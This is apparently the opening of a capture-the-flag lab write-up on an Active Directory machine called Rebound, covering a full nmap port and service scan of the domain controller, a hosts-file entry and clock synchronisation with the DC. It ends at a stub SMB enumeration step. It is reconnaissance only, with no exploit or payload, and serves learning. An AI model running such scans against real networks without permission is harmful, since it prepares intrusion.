this is my 1st insane box hope to finish it haha

## Initial Recon

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ sudo nmap 10.129.232.31 -p- -Pn -sC -sV -A -T4 -vv -oN Rebound.txt
[sudo] password for penguin: 
Sorry, try again.
[sudo] password for penguin: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-08 22:14 +0000
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 22:14
Completed Parallel DNS resolution of 1 host. at 22:14, 0.50s elapsed
Initiating SYN Stealth Scan at 22:14
Scanning 10.129.232.31 [65535 ports]
Discovered open port 139/tcp on 10.129.232.31
Discovered open port 53/tcp on 10.129.232.31
Discovered open port 445/tcp on 10.129.232.31
Discovered open port 135/tcp on 10.129.232.31
Discovered open port 49695/tcp on 10.129.232.31
Discovered open port 636/tcp on 10.129.232.31
Discovered open port 47001/tcp on 10.129.232.31
Discovered open port 49664/tcp on 10.129.232.31
Discovered open port 49698/tcp on 10.129.232.31
Discovered open port 49745/tcp on 10.129.232.31
Discovered open port 3269/tcp on 10.129.232.31
Discovered open port 9389/tcp on 10.129.232.31
Discovered open port 5985/tcp on 10.129.232.31
Discovered open port 49665/tcp on 10.129.232.31
Discovered open port 49711/tcp on 10.129.232.31
Discovered open port 49673/tcp on 10.129.232.31
Discovered open port 49725/tcp on 10.129.232.31
Discovered open port 88/tcp on 10.129.232.31
Discovered open port 3268/tcp on 10.129.232.31
Discovered open port 389/tcp on 10.129.232.31
Discovered open port 49667/tcp on 10.129.232.31
Discovered open port 464/tcp on 10.129.232.31
Discovered open port 49666/tcp on 10.129.232.31
Discovered open port 593/tcp on 10.129.232.31
Discovered open port 49694/tcp on 10.129.232.31
Completed SYN Stealth Scan at 22:14, 24.71s elapsed (65535 total ports)
Initiating Service scan at 22:14
Scanning 25 services on 10.129.232.31
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 56.00% done; ETC: 22:16 (0:00:35 remaining)
Completed Service scan at 22:15, 54.69s elapsed (25 services on 1 host)
Initiating OS detection (try #1) against 10.129.232.31
Retrying OS detection (try #2) against 10.129.232.31
Retrying OS detection (try #3) against 10.129.232.31
Retrying OS detection (try #4) against 10.129.232.31
Retrying OS detection (try #5) against 10.129.232.31
Initiating Traceroute at 22:15
Stats: 0:01:33 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 22:15 (0:00:00 remaining)
Completed Traceroute at 22:15, 0.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:15
Completed Parallel DNS resolution of 2 hosts. at 22:15, 0.50s elapsed
NSE: Script scanning 10.129.232.31.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:16, 8.68s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:16
Completed NSE at 22:16, 2.02s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:16
Completed NSE at 22:16, 0.01s elapsed
Nmap scan report for 10.129.232.31
Host is up, received user-set (0.063s latency).
Scanned at 2026-11-08 22:14:20 GMT for 104s
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-09 05:14:48Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-09T05:16:01+00:00; +6h59m57s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Issuer: commonName=rebound-DC01-CA/domainComponent=rebound
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-06T19:51:11
| Not valid after:  2122-04-08T14:05:49
| MD5:     728b 15ad a351 2a89 c4de 7260 aefa c49b
| SHA-1:   ff90 aad2 fe3a de52 5aa6 657f 1d73 b78a 7eb3 69fb
| SHA-256: 2798 8608 0392 f392 df0c bb50 c001 a056 e114 b5e4 9d31 cac6 5d8b 37a6 ee07 08fb
| -----BEGIN CERTIFICATE-----
| MIIF8zCCBNugAwIBAgITbwAAAAYcFYdRWLA7vgAAAAAABjANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHcmVib3Vu
| ZDEYMBYGA1UEAxMPcmVib3VuZC1EQzAxLUNBMCAXDTI1MDMwNjE5NTExMVoYDzIx
| MjIwNDA4MTQwNTQ5WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| wOhIs9+fmN8l2YhXZfgPY21lW9h/sEQ0fk4/pxKcSAsvBWN2S3m6gQljeqJjuh18
| FyT0vYECOb5K0WMmCIhbz3pMAntcfV6vLisfoZ+JSt93ylxgjsJBrAuA7bnp8u0k
| C6ZXZbwovkPRS906DQj+9/DJyHm8W3ohlsR8Ibj+H0PsNYkxP16oTj3OnDbOekEH
| vFJPyGsPCj1miMYTKWABuiL6f8og+KgtqFqGcHL31ltEKnIAGj+kPwY3OvE3xNqJ
| pYUc7avQzwkTR0E+bs0bZxHBlDHI3MmGEJMAyyewP29KMWzoKdmr3YBg0bJEqsgO
| B1726T76HTuVE+pKM3dxTQIDAQABo4IDGjCCAxYwNgYJKwYBBAGCNxUHBCkwJwYf
| KwYBBAGCNxUIh7W1fb+MfYK5iTSGn9RSgeLmHnUBIQIBbgIBAjAyBgNVHSUEKzAp
| BggrBgEFBQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0P
| AQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUH
| AwEwDAYKKwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBRKzMD20BZY89pI
| sWtdULOE6NmeRzAfBgNVHSMEGDAWgBSbmFtA5+grnO0zFpUkAsloqtvtTTCBygYD
| VR0fBIHCMIG/MIG8oIG5oIG2hoGzbGRhcDovLy9DTj1yZWJvdW5kLURDMDEtQ0Es
| Q049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vy
| dmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1yZWJvdW5kLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6
| Ly8vQ049cmVib3VuZC1EQzAxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXJlYm91bmQs
| REM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0
| aW9uQXV0aG9yaXR5MDQGA1UdEQEB/wQqMCiCEGRjMDEucmVib3VuZC5odGKCC3Jl
| Ym91bmQuaHRiggdyZWJvdW5kME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkC
| AaAwBC5TLTEtNS0yMS00MDc4MzgyMjM3LTE0OTIxODI4MTctMjU2ODEyNzIwOS0x
| MDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCQT54QMrwzFSsnU/OJ/AgNNvk/xSOgjNKs
| zQx2KEmtFZXjjwt41fC5CjsXtvIgXRGApODvrsZ7lbHA/Z1POJa3llSlglmxP0u2
| KOswihymumzos5pqZIrOk+HxnIs29B97n+GWDWXC018YAqNhDSnfieQZTLGQm3Z7
| naoHE3V41t9670aZicZ+qWW7C3p/jAyyWofRMuS8AtwUgG9R5UgoeRj+T6Vq5EsP
| 8WCnnMwZS5TSgd4/yq4zMtAzDnc4tKWa/O4myBgoTJbk4rqwjHiCVCXkKBkwWuPO
| aqfGl+TPSZkzdhrAIC1QcZvl4qF/ZQGQK6vA3DNa+ASVRx55/lW2
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Issuer: commonName=rebound-DC01-CA/domainComponent=rebound
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-06T19:51:11
| Not valid after:  2122-04-08T14:05:49
| MD5:     728b 15ad a351 2a89 c4de 7260 aefa c49b
| SHA-1:   ff90 aad2 fe3a de52 5aa6 657f 1d73 b78a 7eb3 69fb
| SHA-256: 2798 8608 0392 f392 df0c bb50 c001 a056 e114 b5e4 9d31 cac6 5d8b 37a6 ee07 08fb
| -----BEGIN CERTIFICATE-----
| MIIF8zCCBNugAwIBAgITbwAAAAYcFYdRWLA7vgAAAAAABjANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHcmVib3Vu
| ZDEYMBYGA1UEAxMPcmVib3VuZC1EQzAxLUNBMCAXDTI1MDMwNjE5NTExMVoYDzIx
| MjIwNDA4MTQwNTQ5WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| wOhIs9+fmN8l2YhXZfgPY21lW9h/sEQ0fk4/pxKcSAsvBWN2S3m6gQljeqJjuh18
| FyT0vYECOb5K0WMmCIhbz3pMAntcfV6vLisfoZ+JSt93ylxgjsJBrAuA7bnp8u0k
| C6ZXZbwovkPRS906DQj+9/DJyHm8W3ohlsR8Ibj+H0PsNYkxP16oTj3OnDbOekEH
| vFJPyGsPCj1miMYTKWABuiL6f8og+KgtqFqGcHL31ltEKnIAGj+kPwY3OvE3xNqJ
| pYUc7avQzwkTR0E+bs0bZxHBlDHI3MmGEJMAyyewP29KMWzoKdmr3YBg0bJEqsgO
| B1726T76HTuVE+pKM3dxTQIDAQABo4IDGjCCAxYwNgYJKwYBBAGCNxUHBCkwJwYf
| KwYBBAGCNxUIh7W1fb+MfYK5iTSGn9RSgeLmHnUBIQIBbgIBAjAyBgNVHSUEKzAp
| BggrBgEFBQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0P
| AQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUH
| AwEwDAYKKwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBRKzMD20BZY89pI
| sWtdULOE6NmeRzAfBgNVHSMEGDAWgBSbmFtA5+grnO0zFpUkAsloqtvtTTCBygYD
| VR0fBIHCMIG/MIG8oIG5oIG2hoGzbGRhcDovLy9DTj1yZWJvdW5kLURDMDEtQ0Es
| Q049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vy
| dmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1yZWJvdW5kLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6
| Ly8vQ049cmVib3VuZC1EQzAxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXJlYm91bmQs
| REM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0
| aW9uQXV0aG9yaXR5MDQGA1UdEQEB/wQqMCiCEGRjMDEucmVib3VuZC5odGKCC3Jl
| Ym91bmQuaHRiggdyZWJvdW5kME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkC
| AaAwBC5TLTEtNS0yMS00MDc4MzgyMjM3LTE0OTIxODI4MTctMjU2ODEyNzIwOS0x
| MDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCQT54QMrwzFSsnU/OJ/AgNNvk/xSOgjNKs
| zQx2KEmtFZXjjwt41fC5CjsXtvIgXRGApODvrsZ7lbHA/Z1POJa3llSlglmxP0u2
| KOswihymumzos5pqZIrOk+HxnIs29B97n+GWDWXC018YAqNhDSnfieQZTLGQm3Z7
| naoHE3V41t9670aZicZ+qWW7C3p/jAyyWofRMuS8AtwUgG9R5UgoeRj+T6Vq5EsP
| 8WCnnMwZS5TSgd4/yq4zMtAzDnc4tKWa/O4myBgoTJbk4rqwjHiCVCXkKBkwWuPO
| aqfGl+TPSZkzdhrAIC1QcZvl4qF/ZQGQK6vA3DNa+ASVRx55/lW2
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-09T05:16:00+00:00; +6h59m56s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Issuer: commonName=rebound-DC01-CA/domainComponent=rebound
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-06T19:51:11
| Not valid after:  2122-04-08T14:05:49
| MD5:     728b 15ad a351 2a89 c4de 7260 aefa c49b
| SHA-1:   ff90 aad2 fe3a de52 5aa6 657f 1d73 b78a 7eb3 69fb
| SHA-256: 2798 8608 0392 f392 df0c bb50 c001 a056 e114 b5e4 9d31 cac6 5d8b 37a6 ee07 08fb
| -----BEGIN CERTIFICATE-----
| MIIF8zCCBNugAwIBAgITbwAAAAYcFYdRWLA7vgAAAAAABjANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHcmVib3Vu
| ZDEYMBYGA1UEAxMPcmVib3VuZC1EQzAxLUNBMCAXDTI1MDMwNjE5NTExMVoYDzIx
| MjIwNDA4MTQwNTQ5WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| wOhIs9+fmN8l2YhXZfgPY21lW9h/sEQ0fk4/pxKcSAsvBWN2S3m6gQljeqJjuh18
| FyT0vYECOb5K0WMmCIhbz3pMAntcfV6vLisfoZ+JSt93ylxgjsJBrAuA7bnp8u0k
| C6ZXZbwovkPRS906DQj+9/DJyHm8W3ohlsR8Ibj+H0PsNYkxP16oTj3OnDbOekEH
| vFJPyGsPCj1miMYTKWABuiL6f8og+KgtqFqGcHL31ltEKnIAGj+kPwY3OvE3xNqJ
| pYUc7avQzwkTR0E+bs0bZxHBlDHI3MmGEJMAyyewP29KMWzoKdmr3YBg0bJEqsgO
| B1726T76HTuVE+pKM3dxTQIDAQABo4IDGjCCAxYwNgYJKwYBBAGCNxUHBCkwJwYf
| KwYBBAGCNxUIh7W1fb+MfYK5iTSGn9RSgeLmHnUBIQIBbgIBAjAyBgNVHSUEKzAp
| BggrBgEFBQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0P
| AQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUH
| AwEwDAYKKwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBRKzMD20BZY89pI
| sWtdULOE6NmeRzAfBgNVHSMEGDAWgBSbmFtA5+grnO0zFpUkAsloqtvtTTCBygYD
| VR0fBIHCMIG/MIG8oIG5oIG2hoGzbGRhcDovLy9DTj1yZWJvdW5kLURDMDEtQ0Es
| Q049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vy
| dmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1yZWJvdW5kLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6
| Ly8vQ049cmVib3VuZC1EQzAxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXJlYm91bmQs
| REM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0
| aW9uQXV0aG9yaXR5MDQGA1UdEQEB/wQqMCiCEGRjMDEucmVib3VuZC5odGKCC3Jl
| Ym91bmQuaHRiggdyZWJvdW5kME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkC
| AaAwBC5TLTEtNS0yMS00MDc4MzgyMjM3LTE0OTIxODI4MTctMjU2ODEyNzIwOS0x
| MDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCQT54QMrwzFSsnU/OJ/AgNNvk/xSOgjNKs
| zQx2KEmtFZXjjwt41fC5CjsXtvIgXRGApODvrsZ7lbHA/Z1POJa3llSlglmxP0u2
| KOswihymumzos5pqZIrOk+HxnIs29B97n+GWDWXC018YAqNhDSnfieQZTLGQm3Z7
| naoHE3V41t9670aZicZ+qWW7C3p/jAyyWofRMuS8AtwUgG9R5UgoeRj+T6Vq5EsP
| 8WCnnMwZS5TSgd4/yq4zMtAzDnc4tKWa/O4myBgoTJbk4rqwjHiCVCXkKBkwWuPO
| aqfGl+TPSZkzdhrAIC1QcZvl4qF/ZQGQK6vA3DNa+ASVRx55/lW2
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-09T05:16:01+00:00; +6h59m57s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-09T05:16:00+00:00; +6h59m56s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Issuer: commonName=rebound-DC01-CA/domainComponent=rebound
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-06T19:51:11
| Not valid after:  2122-04-08T14:05:49
| MD5:     728b 15ad a351 2a89 c4de 7260 aefa c49b
| SHA-1:   ff90 aad2 fe3a de52 5aa6 657f 1d73 b78a 7eb3 69fb
| SHA-256: 2798 8608 0392 f392 df0c bb50 c001 a056 e114 b5e4 9d31 cac6 5d8b 37a6 ee07 08fb
| -----BEGIN CERTIFICATE-----
| MIIF8zCCBNugAwIBAgITbwAAAAYcFYdRWLA7vgAAAAAABjANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHcmVib3Vu
| ZDEYMBYGA1UEAxMPcmVib3VuZC1EQzAxLUNBMCAXDTI1MDMwNjE5NTExMVoYDzIx
| MjIwNDA4MTQwNTQ5WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| wOhIs9+fmN8l2YhXZfgPY21lW9h/sEQ0fk4/pxKcSAsvBWN2S3m6gQljeqJjuh18
| FyT0vYECOb5K0WMmCIhbz3pMAntcfV6vLisfoZ+JSt93ylxgjsJBrAuA7bnp8u0k
| C6ZXZbwovkPRS906DQj+9/DJyHm8W3ohlsR8Ibj+H0PsNYkxP16oTj3OnDbOekEH
| vFJPyGsPCj1miMYTKWABuiL6f8og+KgtqFqGcHL31ltEKnIAGj+kPwY3OvE3xNqJ
| pYUc7avQzwkTR0E+bs0bZxHBlDHI3MmGEJMAyyewP29KMWzoKdmr3YBg0bJEqsgO
| B1726T76HTuVE+pKM3dxTQIDAQABo4IDGjCCAxYwNgYJKwYBBAGCNxUHBCkwJwYf
| KwYBBAGCNxUIh7W1fb+MfYK5iTSGn9RSgeLmHnUBIQIBbgIBAjAyBgNVHSUEKzAp
| BggrBgEFBQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0P
| AQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUH
| AwEwDAYKKwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBRKzMD20BZY89pI
| sWtdULOE6NmeRzAfBgNVHSMEGDAWgBSbmFtA5+grnO0zFpUkAsloqtvtTTCBygYD
| VR0fBIHCMIG/MIG8oIG5oIG2hoGzbGRhcDovLy9DTj1yZWJvdW5kLURDMDEtQ0Es
| Q049ZGMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vy
| dmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1yZWJvdW5kLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgcEGCCsGAQUFBwEBBIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6
| Ly8vQ049cmVib3VuZC1EQzAxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXJlYm91bmQs
| REM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0
| aW9uQXV0aG9yaXR5MDQGA1UdEQEB/wQqMCiCEGRjMDEucmVib3VuZC5odGKCC3Jl
| Ym91bmQuaHRiggdyZWJvdW5kME8GCSsGAQQBgjcZAgRCMECgPgYKKwYBBAGCNxkC
| AaAwBC5TLTEtNS0yMS00MDc4MzgyMjM3LTE0OTIxODI4MTctMjU2ODEyNzIwOS0x
| MDAwMA0GCSqGSIb3DQEBCwUAA4IBAQCQT54QMrwzFSsnU/OJ/AgNNvk/xSOgjNKs
| zQx2KEmtFZXjjwt41fC5CjsXtvIgXRGApODvrsZ7lbHA/Z1POJa3llSlglmxP0u2
| KOswihymumzos5pqZIrOk+HxnIs29B97n+GWDWXC018YAqNhDSnfieQZTLGQm3Z7
| naoHE3V41t9670aZicZ+qWW7C3p/jAyyWofRMuS8AtwUgG9R5UgoeRj+T6Vq5EsP
| 8WCnnMwZS5TSgd4/yq4zMtAzDnc4tKWa/O4myBgoTJbk4rqwjHiCVCXkKBkwWuPO
| aqfGl+TPSZkzdhrAIC1QcZvl4qF/ZQGQK6vA3DNa+ASVRx55/lW2
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49695/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49745/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=11/8%OT=53%CT=1%CU=32088%PV=Y%DS=2%DC=T%G=Y%TM=6AF0F4A
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=103%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=105%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%TS=U)SE
OS:Q(SP=106%GCD=1%ISR=10C%TI=I%CI=I%TS=U)OPS(O1=M542NW8NNS%O2=M542NW8NNS%O3
OS:=M542NW8%O4=M542NW8NNS%O5=M542NW8NNS%O6=M542NNS)WIN(W1=FFFF%W2=FFFF%W3=F
OS:FFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M542NW8NNS%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%
OS:W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL
OS:=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-09T05:15:54
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25894/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 30184/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 57722/udp): CLEAN (Timeout)
|   Check 4 (port 49801/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m56s, deviation: 0s, median: 6h59m56s

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   96.54 ms 10.10.16.1
2   27.46 ms 10.129.232.31

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:16
Completed NSE at 22:16, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:16
Completed NSE at 22:16, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:16
Completed NSE at 22:16, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.01 seconds
           Raw packets sent: 65877 (2.904MB) | Rcvd: 65632 (2.631MB)
```

we can add this to our local hosts file to resolve the dns 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/SharpLansweeperDecrypt]
└─$ cat /etc/hosts | grep "rebound"
10.129.232.31 rebound.htb dc01.rebound.htb rebound
```

as well can change the clock skew to the `DC`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/SharpLansweeperDecrypt]
└─$ sudo ntpdate 10.129.232.31
2026-11-09 05:17:39.671199 (+0000) +25196.665244 +/- 0.011833 10.129.232.31 s1 no-leap
CLOCK: time stepped by 25196.665244
```

## SMB Enumeration

Seems like the guest account is enabled
